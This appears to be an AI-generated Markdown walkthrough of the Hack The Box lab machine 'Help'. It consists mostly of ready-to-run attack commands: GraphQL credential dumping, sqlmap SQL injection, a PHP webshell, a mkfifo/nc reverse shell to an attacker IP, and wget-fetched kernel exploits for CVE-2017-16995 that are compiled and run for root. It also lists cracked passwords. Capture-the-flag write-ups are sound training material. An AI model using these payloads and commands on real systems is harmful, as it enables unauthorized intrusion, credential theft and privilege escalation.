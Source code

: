 Here is a **Markdown-formatted command walkthrough** for **HTB: Help**, cleanly organized by stage, with context and clarity throughout:

---

# 🆘 HTB: Help – Command Walkthrough

## 📦 Box Info
- **IP**: `10.10.10.121`
- **OS**: Ubuntu 16.04 (Xenial)
- **Difficulty**: Easy
- **Initial Access**: GraphQL → HelpDeskZ Authenticated SQLi / Unauth File Upload
- **Privilege Escalation**: Kernel Exploit (CVE-2017-16995, etc.)

---

## 🔍 Recon

### 🔎 Full TCP Scan
```bash
nmap -sT -p- --min-rate 10000 -oA nmap/alltcp 10.10.10.121
```

### 🔍 Service Detection
```bash
nmap -sC -sV -p 22,80,3000 -oA nmap/scripts 10.10.10.121
```

---

## 🌐 Web Recon – Port 3000 (GraphQL)

### 📊 Discover Schema
```bash
curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" \
-d '{ "query": "{ __schema { queryType { name, fields { name, description } } } }" }' | jq
```

### 📚 View User Type Fields
```bash
curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" \
-d '{ "query": "{ __type(name: \"User\") { name fields { name } } }" }' | jq
```

### 🔐 Dump User Credentials
```bash
curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" \
-d '{ "query": "{ user { username password } }" }' | jq
```

- **Username**: `helpme@helpme.com`  
- **Password (MD5)**: `5d3c93182bb20f07b994a7f617e99cff`  
- **Cracked**: `godhelpmeplz`

---

## 🌐 Web Recon – Port 80 (Apache)

### 🧭 Directory Brute Force
```bash
gobuster -u http://10.10.10.121 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 50
```

### 🔍 Discover `/support` (HelpDeskZ)
Login with:
- **Email**: `helpme@helpme.com`
- **Password**: `godhelpmeplz`

---

## 🐚 Shell Access – Method 1: SQLi via Ticket Attachment

### 🔎 Identify SQLi
Modify param in:
```
http://10.10.10.121/support/?v=view_tickets&action=ticket&param[]=4&param[]=attachment&param[]=1&param[]=6
```

Try:
- `...6 AND 1=1-- -` → ✅
- `...6 AND 1=2-- -` → ❌

### ⚙️ Dump with sqlmap
1. Save request in Burp (e.g., `ticket_attachment.request`)
2. Run:
```bash
sqlmap -r ticket_attachment.request --level 5 --risk 3 -p param[] --dump
```

### 🔐 Extracted Creds
- **Username**: `admin`
- **Password**: `Welcome1`

### 🔑 SSH as help
```bash
ssh help@10.10.10.121
# Password: Welcome1
```

---

## 🐚 Shell Access – Method 2: File Upload Exploit

### ⚙️ Upload Webshell
Use:
```php
<?php system($_REQUEST['cmd']); ?>
```

### 🔍 Brute Upload Location (based on time + md5)
```python
# Save as exploit.py
./exploit.py http://10.10.10.121/support/uploads/tickets/ cmd.php
```

### 🧪 Webshell Test
```bash
curl http://10.10.10.121/support/uploads/tickets/<shell>.php?cmd=id
```

### 🎯 Reverse Shell Payload
```bash
curl 'http://10.10.10.121/support/uploads/tickets/<shell>.php?cmd=rm+/tmp/f;mkfifo+/tmp/f;cat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.4+443+>/tmp/f'
nc -lnvp 443
```

---

## 🧬 Shell Upgrade
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo
fg
reset
# Enter: screen
export TERM=screen
```

---

## ⬆️ Privilege Escalation (help → root)

### 📌 Kernel Version
```bash
uname -a
# 4.4.0-116-generic
```

### 🧠 Use Exploits (CVE-2017-16995)
- Move to `/dev/shm`
- Start web server:
```bash
python3 -m http.server 80
```

- On target:
```bash
wget http://10.10.14.4/44298.c
gcc -o a 44298.c
./a
```

Or:

```bash
wget http://10.10.14.4/45010.c
gcc -o a 45010.c
./a
```

Or:

```bash
wget http://10.10.14.4/exploit.sh
chmod +x exploit.sh
./exploit.sh
```

---

## 🏁 Final Flags

### 🧑‍💻 User Flag
```bash
cat /home/help/user.txt
```

### 👑 Root Flag
```bash
cat /root/root.txt
```